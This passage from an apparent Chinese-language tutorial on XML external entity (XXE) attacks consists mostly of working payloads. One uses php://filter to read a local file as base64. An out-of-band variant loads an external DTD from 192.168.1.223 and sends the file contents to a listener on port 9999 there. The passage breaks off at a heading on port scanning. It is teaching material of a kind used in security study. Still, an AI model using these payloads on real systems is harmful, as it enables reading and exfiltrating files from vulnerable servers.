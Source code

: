 ```
php://filter 是一种元封装器， 设计用于数据流打开时的筛选过滤应用。
```
##### 实际利用:
```
<?xml version="1.0" encoding="utf-8"?> 
<!DOCTYPE user [
<!ENTITY all SYSTEM "php://filter/read=convert.base64-encode/resource=C:/test.txt">]>
<user><username>&all;</username><password>132123</password></user>
```
##### 效果:
![图片](https://ae01.alicdn.com/kf/Ud0da5efe75ab47b38b4917662f564c34A.jpg)

然后我们将相应包中的base64的内容进行解码:

![图片](https://ae01.alicdn.com/kf/Ud6e80308efbe4ab7b10c4730966598d1V.jpg)

##### payload解释:

```
php://filter/read=convert.base64-encode/resource=C:/test.txt
意思是将C:/test.txt文件的内容进行一个base64加密
```
### 4.无回显的文件读取(OOB out-of-band 外带参数实体注入):
```
在实际情况中，大多数情况下服务器上的 XML 并不是输出用的，所以就少了输出这一环节，这样的话，即使漏洞存在，我们的payload的也被解析了，但是由于没有输出，我们也不知道解析得到的内容是什么，因此我们想要现实中利用这个漏洞就必须找到一个不依靠其回显的方法——外带数据
```
##### 利用思路:
```
通过外部DTD的方式可以将内部参数实体的内容与外部DTD声明的实体的内容拼接起来.

利用payload来从目标主机读取到文件内容后，将文件内容作为url的一部分来请求我们本地监听的端口
```
##### 实际利用:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE convert [
<!ENTITY % remote SYSTEM "http://192.168.1.223/b.dtd">
%remote;%int;%send;]>
```
##### b.dtd文件内容:
```
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=file:///C:/test.txt">
<!ENTITY % int "<!ENTITY &#37; send SYSTEM 'http://192.168.1.223:9999/?p=%file;'>">
```
##### 效果:
![图片](https://ae01.alicdn.com/kf/U1db26cf280a947f29957cef1af2e6b18c.jpg)

可以看到我们监听的端口成功接收到了包含文件内容的请求.

### 5.利用XXE进行端口探测:

